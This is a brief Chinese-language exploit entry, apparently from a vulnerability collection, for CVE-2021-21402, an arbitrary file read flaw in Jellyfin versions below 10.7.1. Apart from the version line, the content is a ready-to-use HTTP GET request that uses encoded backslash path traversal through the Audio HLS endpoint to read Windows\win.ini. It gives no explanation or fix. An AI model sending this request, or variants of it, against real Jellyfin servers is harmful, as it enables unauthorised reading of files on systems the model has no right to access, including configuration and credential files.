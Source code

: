 # CVE-2021-21402 Jellyfin 任意文件读取漏洞

影响版本：  
- Jellyfin<10.7.1  

Exp：
```
GET /Audio/1/hls/..%5C..%5C..%5C..%5C..%5C..%5CWindows%5Cwin.ini/stream.mp3/
Host:xxx.xxx.xxx.xxx
Content-Type: application/octet-stream
```